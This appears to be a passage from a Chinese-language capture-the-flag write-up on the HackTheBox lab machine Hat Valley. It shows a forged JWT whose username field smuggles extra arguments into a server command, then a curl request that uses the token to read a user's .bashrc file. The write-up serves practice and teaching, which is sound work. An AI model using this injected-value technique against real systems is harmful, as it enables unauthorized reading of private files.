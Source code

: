   

依然报错Failed to retrieve leave requests

修改如下

  

  *   *   *   * 

    
    
    {  "username": "/' /home/bean/.bashrc '",  "iat": 1677820073}

  

有东西了

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vLmJhc2hyYyAnIiwiaWF0IjoxNjc3ODIwMDczfQ.NJ1ArXnFPdqvtf4K9Exdo34a4r73JZNUlg6VANAW7sQ"                    # ~/.bashrc: executed by bash(1) for non-login shells.# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)# for examples  
    # If not running interactively, don't do anythingcase $- in    *i*) ;;      *) return;;esac  
    # don't put duplicate lines or lines starting with space in the history.# See bash(1) for more optionsHISTCONTROL=ignoreboth  
    # append to the history file, don't overwrite itshopt -s histappend  
    # for setting history length see HISTSIZE and HISTFILESIZE in bash(1)HISTSIZE=1000HISTFILESIZE=2000  
    # check the window size after each command and, if necessary,# update the values of LINES and COLUMNS.shopt -s checkwinsize  
    # If set, the pattern "**" used in a pathname expansion context will# match all files and zero or more directories and subdirectories.#shopt -s globstar  
    # make less more friendly for non-text input files, see lesspipe(1)[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"  
    # set variable identifying the chroot you work in (used in the prompt below)if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then    debian_chroot=$(cat /etc/debian_chroot)fi  